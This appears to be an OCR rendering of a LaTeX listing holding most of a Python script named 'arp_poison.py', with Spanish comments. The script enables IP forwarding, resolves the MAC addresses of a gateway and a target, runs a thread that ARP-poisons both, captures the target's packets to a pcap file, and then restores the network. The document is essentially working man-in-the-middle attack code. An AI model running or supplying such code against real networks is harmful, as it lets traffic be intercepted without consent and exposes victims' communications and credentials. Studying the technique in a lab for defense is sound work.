 \documentclass[a4paper, 13pt]{article}
\begin{document}
\begin{lstlisting}
	#Inicio el script
	print("[*] Comenzando Script: arp_poison.py")
	print("[*] Habilitando IP Forwarding")
	#Habilito el redireccionamiento de red en mi pc
	os.system("echo 1 > /proc/sys/net/ipv4/ip_forward")
	print(f"[*] Gateway IP: {gateway_ip}")
	print(f"[*] Target IP : {target_ip}")
	
	#Obtengo la direccion MAC del gateway
	gateway_mac = get_mac(gateway_ip)
	if gateway_mac is None:
		print("[!] No es posible obtener la direccion MAC de la gateway. Saliendo..")
		sys.exit(0)
	else:
		print(f"[*] Direccion MAC de la gateway: {gateway_mac}")
	
	#Obtengo la direccion MAC de la maquina objetivo
	target_mac = get_mac(target_ip)
	if target_mac is None:
		print("[!] No es posible obtener la direccion MAC del objetivo. Saliendo..")
		sys.exit(0)
	else:
		print(f"[*] Direccion MAC del objetivo: {target_mac}")
	
	#Inicio el hilo que hace el envenenamiento ARP
	poison_thread = threading.Thread(target=arp_poison, args=(gateway_ip, gateway_mac, target_ip, target_mac))
	poison_thread.start()
	
	#Leo el trafico y lo escribo en el archivo pcap
	try:
		#Seteo un filtro que sea donde obtengo los paquetes que tienen como ip host la maquina objetivo
		sniff_filter = "ip host " + target_ip
		print(f"[*] Comenzando captura de paquetes. Cantidad de paquetes: {packet_count}. Filter: {sniff_filter}")
		packets = sniff(filter=sniff_filter, iface=conf.iface, count=packet_count)
		#Escribo los paquetes (la cantidad que haya seteado en los parametros de configuracion) 
		#que intercepto a un archivo pcap
		wrpcap(target_ip + "_capture.pcap", packets)
		print(f"[*] Deteniendo la captura de paquetes.. Restaurando red..")
		restore_network(gateway_ip, gateway_mac, target_ip, target_mac)
	except KeyboardInterrupt:
		print(f"[*] Se detuvo la captura de red.. Restaurando red..")
		#Una vez que presiono ctrl + c restauro la red a su estado inicial
		restore_network(gateway_ip, gateway_mac, target_ip, target_mac)
		sys.exit(0)
	\end{lstlisting}
	
\end{document}

